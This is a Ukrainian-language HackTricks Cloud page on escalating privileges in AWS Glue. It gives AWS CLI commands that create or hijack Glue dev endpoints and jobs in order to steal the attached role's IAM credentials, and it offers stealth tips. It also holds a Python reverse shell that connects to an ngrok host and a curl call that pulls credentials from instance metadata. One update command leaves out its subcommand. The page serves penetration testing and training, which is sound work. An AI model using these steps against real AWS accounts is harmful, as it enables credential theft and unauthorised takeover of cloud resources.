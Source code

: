 # AWS - Glue Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## glue

### `iam:PassRole`, `glue:CreateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

Користувачі з цими дозволами можуть **налаштувати нову точку розробки AWS Glue**, **призначаючи існуючу роль служби, яку може використовувати Glue**, з конкретними дозволами для цієї точки.

Після налаштування **зловмисник може підключитися до екземпляра точки через SSH** і вкрасти облікові дані IAM призначеної ролі:
```bash
# Create endpoint
aws glue create-dev-endpoint --endpoint-name <endpoint-name> \
--role-arn <arn-role> \
--public-key file:///ssh/key.pub

# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```
Для цілей прихованості рекомендується використовувати облікові дані IAM зсередини віртуальної машини Glue.

**Потенційний вплив:** Привілейоване підвищення до ролі служби glue.

### `glue:UpdateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

Користувачі з цим дозволом можуть **змінити існуючий Glue розробницький** кінцевий пункт SSH-ключа, **дозволяючи доступ до нього через SSH**. Це дозволяє зловмиснику виконувати команди з привілеями прикріпленої ролі кінцевого пункту:
```bash
# Change public key to connect
aws glue --endpoint-name target_endpoint \
--public-key file:///ssh/key.pub

# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```
**Потенційний вплив:** Привілейоване підвищення до ролі служби glue.

### `iam:PassRole`, (`glue:CreateJob` | `glue:UpdateJob`), (`glue:StartJobRun` | `glue:CreateTrigger`)

Користувачі з **`iam:PassRole`** в поєднанні з **`glue:CreateJob` або `glue:UpdateJob`**, і з **`glue:StartJobRun` або `glue:CreateTrigger`** можуть **створювати або оновлювати завдання AWS Glue**, прикріплюючи будь-який **обліковий запис служби Glue**, і ініціювати виконання завдання. Можливості завдання включають виконання довільного Python коду, що може бути використано для встановлення зворотного шелу. Цей зворотний шел може бути використаний для ексфільтрації **облікових даних IAM** ролі, прикріпленої до завдання Glue, що може призвести до потенційного несанкціонованого доступу або дій на основі дозволів цієї ролі:
```bash
# Content of the python script saved in s3:
#import socket,subprocess,os
#s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
#s.connect(("2.tcp.ngrok.io",11216))
#os.dup2(s.fileno(),0)
#os.dup2(s.fileno(),1)
#os.dup2(s.fileno(),2)
#p=subprocess.call(["/bin/sh","-i"])
#To get the IAM Role creds run: curl http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy


# A Glue role with admin access was created
aws glue create-job \
--name privesctest \
--role arn:aws:iam::93424712358:role/GlueAdmin \
--command '{"Name":"pythonshell", "PythonVersion": "3", "ScriptLocation":"s3://airflow2123/rev.py"}'

# You can directly start the job
aws glue start-job-run --job-name privesctest
# Or you can create a trigger to start it
aws glue create-trigger --name triggerprivesc --type SCHEDULED \
--actions '[{"JobName": "privesctest"}]' --start-on-creation \
--schedule "0/5 * * * * *"  #Every 5mins, feel free to change
```
**Потенційний вплив:** Privesc до ролі служби glue, що вказана.

### `glue:UpdateJob`

Просто з дозволом на оновлення атакуючий може вкрасти IAM облікові дані вже прикріпленої ролі.

**Потенційний вплив:** Privesc до прикріпленої ролі служби glue.

## Посилання

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
